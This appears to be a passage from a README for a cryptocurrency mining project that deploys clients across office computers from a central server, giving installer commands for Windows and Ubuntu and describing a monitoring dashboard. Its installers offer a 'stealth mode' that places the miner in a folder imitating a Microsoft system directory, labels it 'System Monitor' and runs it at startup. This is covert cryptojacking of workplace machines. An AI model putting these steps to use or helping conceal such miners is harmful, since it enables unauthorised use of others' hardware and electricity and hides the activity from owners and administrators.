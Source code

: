 ## 🚀 How to Deploy to Office Computers

### **Windows 11 Deployment**

1. **Download Windows Installer**
   ```
   http://localhost:3000/installer/windows-installer.ps1
   ```

2. **Run as Administrator**
   ```powershell
   # Basic installation
   .\windows-installer.ps1 -CentralServerIP "YOUR_FEDORA_IP"
   
   # With stealth mode
   .\windows-installer.ps1 -CentralServerIP "YOUR_FEDORA_IP" -StealthMode
   ```

3. **What Gets Installed**
   - Mining client in `%APPDATA%\Microsoft\SystemTools` (stealth mode)
   - Desktop shortcut as "System Monitor"
   - Startup integration for automatic mining
   - Uninstaller for easy removal

### **Ubuntu Deployment**

1. **Download Ubuntu Installer**
   ```
   http://localhost:3000/installer/ubuntu-installer.sh
   ```

2. **Run Installation**
   ```bash
   chmod +x ubuntu-installer.sh
   ./ubuntu-installer.sh --server YOUR_FEDORA_IP --stealth
   ```

3. **What Gets Installed**
   - Mining client as systemd service
   - Automatic startup on boot
   - Service management commands

### **Web-Based Installation**
1. Open: `http://localhost:3000/installer`
2. Select target operating system
3. Follow browser-based installation guide

## 📊 Dashboard Features

### **Main Dashboard** (`http://localhost:3000`)
- **Real-time Mining Stats**: Hashrate, shares, earnings
- **System Performance**: CPU/GPU usage, temperatures
- **Profitability Calculator**: Live Bitcoin price, network difficulty
- **Office Network Management**: View all connected clients
- **Cross-Platform Deployment**: Download installers
- **Performance Analytics**: Detailed metrics and trends
